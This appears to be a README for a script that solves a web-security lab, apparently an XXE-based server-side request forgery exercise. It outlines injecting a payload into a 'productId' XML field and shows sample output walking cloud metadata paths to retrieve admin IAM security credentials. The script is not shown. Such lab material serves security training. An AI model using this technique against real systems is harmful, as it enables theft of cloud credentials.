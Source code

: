 ## Hack Steps

1. Inject payload into 'productId' XML element to retrieve the path via SSRF
2. Extract the path from the response
3. Repeat the process with the new extracted path until you fetch the admin information

## Run Script

1. Change the URL of the lab
2. Start script

```
~$ python main.py
```

## Expected Output

```
⦗#⦘ Injection point: productId
⦗1⦘ Injecting payload to retrieve the path number 1.. OK => /latest/
⦗2⦘ Injecting payload to retrieve the path number 2.. OK => /latest/meta-data/
⦗3⦘ Injecting payload to retrieve the path number 3.. OK => /latest/meta-data/iam/
⦗4⦘ Injecting payload to retrieve the path number 4.. OK => /latest/meta-data/iam/security-credentials/
⦗5⦘ Injecting payload to retrieve the path number 5.. OK => /latest/meta-data/iam/security-credentials/admin/
❯❯ Fetching admin information.. OK
🗹 The lab should be marked now as solved
```

